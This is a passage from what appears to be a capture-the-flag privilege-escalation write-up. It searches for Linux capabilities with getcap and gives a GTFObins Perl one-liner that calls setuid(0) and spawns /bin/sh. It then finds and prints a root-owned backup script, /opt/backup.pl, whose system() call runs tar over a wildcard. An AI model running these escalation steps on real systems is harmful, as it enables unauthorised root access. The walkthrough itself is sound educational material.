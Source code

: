 We could have found this manualy with `getcap`

```bash
getcap -r /
```

Knowing this, we can use [GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities) to show us how we can abuse the SUID capablities.

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

But that dosen't work here.
(note: we will investigate why once we have root.)

Let's insted look for perl scripts we might be able to abuse.

```bash
find / -name *.pl -ls 2>/dev/null
...snip...

151448      4 -rwxr-xr-x   1 root     root          838 Sep  1 12:53 /opt/backup.pl
```

We find a backup script in `/opt`.
Let's read the script.

```bash
cat /opt/backup.pl
```

```perl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```